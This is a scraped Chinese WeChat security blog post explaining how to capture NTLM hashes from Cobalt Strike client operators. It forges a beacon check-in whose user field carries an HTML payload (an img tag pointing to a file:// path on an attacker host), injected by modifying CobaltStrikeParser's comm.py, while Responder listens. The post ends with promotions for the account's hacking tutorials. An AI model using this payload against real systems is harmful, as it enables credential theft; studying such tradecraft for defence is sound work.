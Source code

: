 #  CobaltStrike XSS利用姿势，抓客户端hash

[ 渗透测试网络安全 ](javascript:void\(0\);)

**渗透测试网络安全** ![]()

微信号 STCSWLAQSEC

功能介绍 致力于分享成员技术研究成果、漏洞新闻、安全招聘以及其他安全相关内容

____

___发表于_

收录于合集

来自 Jas502n大佬的思路  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181026.png)

  

使用此工具建立监听：https://github.com/lgandx/Responder

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181029.png)

  

https://github.com/Sentinel-One/CobaltStrikeParser/

修改 comm.py 第39行，为payload：<html>< img src='file://x.x.x.x/xx'%>

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181030.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181032.png)

伪造上线  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181032.png)

CS上线，user 处为我们设置的 payload  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181034.png)

  

Responder 脚本抓到客户机 hash

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181035.png)

微信公众号渗透测试网络安全后台回复“ **224420** ”获取

  

 **关 注 有 礼**

  
  
关注本公众号回复“718619”可以免费领取全套网络安全学习教程，安全靶场、面试指南、安全沙龙PPT、代码安全、火眼安全系统等

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181036.png)
还在等什么？赶紧点击下方名片关注学习吧！![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923181036.png)

分享收藏

3在看

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

